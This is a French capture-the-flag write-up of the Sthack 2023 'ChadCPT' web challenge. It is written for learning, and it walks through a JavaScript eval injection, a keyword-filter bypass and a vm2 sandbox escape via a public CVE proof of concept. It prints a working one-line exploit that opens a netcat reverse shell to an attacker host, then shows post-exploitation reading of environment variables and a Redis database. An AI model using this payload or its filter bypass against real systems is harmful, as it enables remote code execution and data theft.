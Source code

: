 ```yaml
---
layout: post
title: Chad CPT
category: Sthack-2023
---
```



# Chad CPT
## Introduction

Pour cette édition de la Sthack 2023, nous avons eu le droit à une très grande variété de challenge. Nous vous proposons ici une résolution de l’épreuve `ChadCPT`, un challenge de type web avec une "IA" un peu trop permissive.
Voici l'énoncé :


> Do you know Chad CPT ?
The new SCAM "AI" which can only solve simple math (like 1+1), this "AI" is pretty stoned and does not seem to handle failure...
Retrieve the value of the flag located in the database.

![interface](/assets/img/sthack2023/chad-cpt/interface.png){:class="img-responsive smallpict"}

L’application ChadCPT consiste en un formulaire à une seule entrée, ayant pour objectif de répondre à des opérations arithmétiques de type `2+2`, `3*3`, …

![3+3](/assets/img/sthack2023/chad-cpt/3+3.png){:class="img-responsive smallpict"}

## Recherche de bug

Nous cherchons dans un premier temps à réaliser un bug sur l’application dans le but d’observer des situations potentiellement non prévues. Parmi les bugs classiques pouvant intervenir lors d’opérations arithmétiques, nous retrouvons la fameuse division par zéro.

En effectuant une division par zéro telle que `3/0`, l’application nous retourne une erreur `Infinity`.

![30](/assets/img/sthack2023/chad-cpt/30.png){:class="img-responsive smallpict"}

Cette erreur non traitée est typique d’un programme JavaScript :

![Infinity](/assets/img/sthack2023/chad-cpt/infinity.png){:class="img-responsive smallpict"}

Là où une application python (par exemple) aurait retourné une erreur de type `ZeroDivisonError` :

![python](/assets/img/sthack2023/chad-cpt/python.png)

Du JavaScript côté serveur, nous partons donc dans l’hypothèse d’une application développée avec NodeJS.
Le programme étant réceptif aux booléens (`true` et `false`), nous tentons ensuite de voir si celle-ci peut accepter les équations sous forme de conditions JavaScript. Effectivement `1==1` nous répond `true`, quand `1==2` résulte en l’absence de réponse (synonyme ici de `false`).

![1==1](/assets/img/sthack2023/chad-cpt/1==1.png){:class="img-responsive smallpict"}

![1==2](/assets/img/sthack2023/chad-cpt/1==2.png){:class="img-responsive smallpict"}

Nous pouvons alors proposer des égalités telles que `"test".length==4` afin de valider la présence d’un moteur JavaScript côté serveur, et également garder en tête la possibilité d’utiliser des égalités pour une potentielle exploitation à l’aveugle.

![length==4](/assets/img/sthack2023/chad-cpt/length==4.png){:class="img-responsive smallpict"}

Après avoir confirmé la présence de NodeJS, nous pouvons alors tenter d’exécuter les fonctions clefs du langage pouvant permettre d’élever nos privilèges. La fonction `eval(<instruction>)` fonctionne et parait alors idéale pour tenter d’exécuter du code JavaScript sans être gêné par l’interpréteur en attente d’un input incluant une opération arithmétique.

## Découverte de l'environnement d'exécution

NodeJS est particulièrement riche par ses modules (natifs ou non), mais nous observons que leur import reste impossible, sans savoir si ce sont les modules qui sont introuvables ou l’instruction `require` qui est bloquée :

![fs](/assets/img/sthack2023/chad-cpt/fs.png){:class="img-responsive smallpict"}

Nous tentons également de créer un processus à part dans le but d’y injecter une commande système. Cette opération est notamment possible via l’utilisation de `child_process`. Nous notons cependant que l’application réalise un contrôle sécurité et va alors bloquer toute requête contenant le mot clef `process` avant même de l’interpréter.

![process](/assets/img/sthack2023/chad-cpt/process.png){:class="img-responsive smallpict"}

Pour contourner ce blocage, nous pouvons alors dynamiquement diviser et concaténer le mot de la manière suivante : `"pro"+"cess"`.

![pro+cess](/assets/img/sthack2023/chad-cpt/pro+cess.png){:class="img-responsive smallpict"}

Le message d’erreur disparait, le contournement est alors fonctionnel.

Dans des situations dit de `jail`/`sandbox`, le programme fait en sorte de nous permettre d’exécuter les commandes natives du langage, tout en empêchant l’exécution de commandes systèmes sur l’hôte. Notre objectif est alors de gagner des informations sur cet environnement, et en trouver les failles pour en abuser.

Nous observons alors l’environnement d’exécutions. NodeJS étant un langage supportant la philosophie objet, nous tentons de lui faire afficher les propriétés de son objet courant `this` via `Object.getOwnPropertyNames(this)`.

Nous récupérons alors un grand nombre de propriétés de l’objet courant, dont une propriété `VM2_INTERNAL_STATE_DO_NOT_USE_OR_PROGRAM_WILL_FAIL`.

Nous nous informons alors sur `vm2` et apprenons qu’il s’agit d’une sandbox NodeJS :

![vm2](/assets/img/sthack2023/chad-cpt/vm2.png){:class="img-responsive smallpict"}

Une première hypothèse est d’observer les mauvaises configurations/utilisations/déploiements qui pourraient mener à un échappement de la sandbox vm2. Cette hypothèse a fait œuvre de très nombreux tests, sans résultats.

Nous observons alors que deux failles ont récemment (avril 2023) été publiées :

- CVE-2023-29017
- CVE-2023-29199

Des preuves d’exploitation sont également disponibles, ce qui facilite l’exploitation :

![vm2cve](/assets/img/sthack2023/chad-cpt/vm2cve.png){:class="img-responsive smallpict"}

https://gist.github.com/seongil-wi/2a44e082001b959bfe304b62121fb76d

(Le second POC s’avérant plus stable pour maintenir une connexion ouverte, la suite de cet article utilisera alors l’exploit ici noté `vm2_3.9.14_exploit_2.js`).

## Exploitation

Dans ce POC, nous avons tout d’abord la mise en place d’un environnement vm2 minimal, puis l’exécution de l’exploit :

![exploit](/assets/img/sthack2023/chad-cpt/exploit.png){:class="img-responsive smallpict"}

Nous récupérons alors la partie surlignée ci-dessus. Les modifications à appliquer sont les suivantes :

- Remplacer `touch flag` par une commande qui nous intéresse. Nous souhaitons obtenir un accès au système, la commande NetCat `nc <IP_serveur_attaquant> <port_serveur_attaquant> -e /bin/sh` sera alors sélectionnée pour un reverse-shell.
- Couper les chaînes contenant le mot « process » pour permettre de contourner la protection en place.
- Faire un oneliner JavaScript pour éviter les problèmes liés au retour à la ligne

Voici le code d’exploitation final :

```

Error.prepareStackTrace = (e, frames) => { var a="child_pro"+"cess"; var b="return pro"+"cess"; frames.constructor.constructor(b)().mainModule.require(a).execSync('nc <IP_serveur_distant> <port_serveur_distant> -e /bin/sh'); }; async function aa(){eval("1=1")} aa()

```

Nous initialisons également un serveur NetCat en écoute sur Internet via la commande `nc -lvp <port>`.

L’envoi du payload permet alors de récupérer un shell sur le serveur distant :


![nc](/assets/img/sthack2023/chad-cpt/nc.png){:class="img-responsive smallpict"}

## Phase de post-exploitation

Nous remarquons que nous sommes connectés sur le serveur en tant que `appuser`, après quelques recherches dans les différents dossiers, nous relisons à tête reposée l'énoncé : il faut trouver les accès à une `base de données`.

Nous trouvons un premier indice dans le fichier `/etc/passwd`, un utilisateur `redis` est présent. Nous savons donc maintenant qu'une base redis est utilisée, l'exécution de la commande `env`, listant les variables d'environnement, nous permet de nous conforter dans cette hypothèse :


```

appuser@202035c4bee1:/app$ env
env
REDIS_URL=redis://redis:6379/2
HOSTNAME=202035c4bee1
YARN_VERSION=1.22.19
PWD=/app
HOME=/home/appuser
LS_COLORS=
SHLVL=1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
NODE_VERSION=19.9.0
_=/usr/bin/env

```

Nous nous connectons sur le port 6379 hébergeant le service redis, la connexion fonctionne :

![redis](/assets/img/sthack2023/chad-cpt/redis.png){:class="img-responsive smallpict"}

Il ne nous reste plus qu'à y retrouver le flag …

![flag](/assets/img/sthack2023/chad-cpt/flag.png){:class="img-responsive smallpict"}

… et valider l’épreuve.
